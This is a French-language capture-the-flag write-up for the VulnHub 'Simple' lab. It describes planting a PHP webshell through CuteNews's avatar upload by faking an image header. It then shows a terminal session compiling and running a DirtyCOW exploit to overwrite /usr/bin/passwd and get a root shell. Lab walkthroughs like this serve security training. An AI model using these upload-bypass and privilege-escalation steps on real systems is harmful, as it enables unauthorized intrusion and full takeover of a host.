 ```yaml
---
title: "Solution du CTF SecTalks: BNE0x03 - Simple de VulnHub"
tags: [CTF, VulnHub]
---
```


[SecTalks: BNE0x03 - Simple](https://vulnhub.com/entry/sectalks-bne0x03-simple,141/) est un boot2root avec plusieurs indices que les habitués des CTFs pourront tout à fait ignorer :

> 1. Get a user shell by uploading a reverse shell and executing it.
> 2. A proxy may help you to upload the file you want, rather than the file that the server expects.
> 3. There are 3 known privesc exploits that work. Some people have had trouble executing one of them unless it was over a reverse shell using a netcat listener.

```
Nmap scan report for 192.168.56.104
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Ce début de CTF est exactement le même scénario que sur le CTF [Cute]({% link _posts/2022-11-05-Solution-du-CTF-Cute-de-VulnHub.md %}) : on dispose d'une appli web `CuteNews` sur laquelle il est possible de s'enregistrer et déposer un shell PHP via la fonctionnalité l'upload d'avatar pour peu que notre script PHP ait un entête d'image valide pour passer les vérifications.

On obtient alors un webshell avec les droits `www-data`.

On obtient ensuite un shell interactif via l'upload et l'exécution d'un reverse-ssh.

Une recherche de vulnérabilités via `LinPEAS` remonte `DirtyCOW` comme étant la meilleure solution pour une escalade de privilèges. On s'exécute donc :

```bash
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c 
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@simple:/var/www/html/uploads$ find / -name cc1 2> /dev/null 
/usr/lib/gcc/i686-linux-gnu/4.8/cc1
www-data@simple:/var/www/html/uploads$ export PATH=/usr/lib/gcc/i686-linux-gnu/4.8/cc1:$PATH
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
/tmp/ccVwkde8.o: In function `main':
cowroot.c:(.text+0x368): undefined reference to `pthread_create'
cowroot.c:(.text+0x38b): undefined reference to `pthread_create'
cowroot.c:(.text+0x3af): undefined reference to `pthread_create'
cowroot.c:(.text+0x3c4): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
www-data@simple:/var/www/html/uploads$ ./cowroot 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@simple:/var/www/html/uploads# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@simple:/var/www/html/uploads# cd /root
root@simple:/root# ls
flag.txt
root@simple:/root# cat flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```

*Publié le 3 janvier 2023*
